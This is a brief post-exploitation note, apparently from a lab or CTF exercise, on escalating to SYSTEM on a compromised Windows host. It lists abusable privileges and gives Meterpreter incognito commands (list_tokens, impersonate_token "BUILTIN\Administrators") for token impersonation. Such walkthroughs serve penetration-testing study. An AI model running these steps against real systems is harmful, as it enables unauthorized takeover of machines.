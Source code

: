 We use whoami /priv on the compromised box to enumerate priviledges.

Commonly abused privs:

-   SeImpersonatePrivilege
-   SeAssignPrimaryPrivilege
-   SeTcbPrivilege
-   SeBackupPrivilege
-   SeRestorePrivilege
-   SeCreateTokenPrivilege
-   SeLoadDriverPrivilege
-   SeTakeOwnershipPrivilege
-   SeDebugPrivilege


---

We see that SeDebug and SeImpersonate are enabled
We can use the incognito module to exploit this
Use this command in meterpreter:
`load incognito`

---

Check which tokens are available
`list_tokens -g`

BUILTIN\Administrators is available

`impersonate_token "BUILTIN\Administrators"`

Run `getuid`
We are now NT AUTHORITY\SYSTEM

---



adubs808: SeImpersonate is a good sign of a privesc vector. Usually service accounts will have that ability.

